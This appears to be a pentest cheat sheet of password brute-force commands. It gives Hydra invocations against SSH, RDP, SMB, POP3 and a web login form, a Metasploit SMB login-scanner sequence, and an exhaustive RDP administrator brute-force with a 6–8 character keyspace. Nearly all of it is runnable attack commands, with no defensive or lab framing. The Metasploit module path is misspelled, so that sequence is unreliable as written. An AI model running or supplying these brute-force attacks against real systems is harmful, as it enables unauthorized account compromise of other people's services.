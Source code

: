 s  brute force SSH 

```
hydra -L user.list -P password.list ssh://<target-ip> -t 64
```

```
hydra -l username -p password ssh://<target-ip> -t 64
```
brute force rdp 
```
hydra -L user.list -P password.list rdp://<target-ip> -t 64
```

brute fore smb
```
hydra -L user.list -P password.list smb://<target-ip> -t 64
```
if there is an error -> manually update and recompile hydra or use Metasploit
```
use auxilirary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
set rhosts <ip-address>
run
```

we can specify the port also `service://target-ip:port`


brute force pop3
```
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

brute force a web login form 
```
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```


## Advanced Attack
```
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```
This command instructs Hydra to:

- Use the username "administrator".
- Generate and test passwords ranging from 6 to 8 characters, using the specified character set.
- Target the RDP service on `192.168.1.100`.
- Employ the `rdp` module for the attack.

Hydra will generate and test all possible password combinations within the specified parameters, attempting to break into the RDP service.
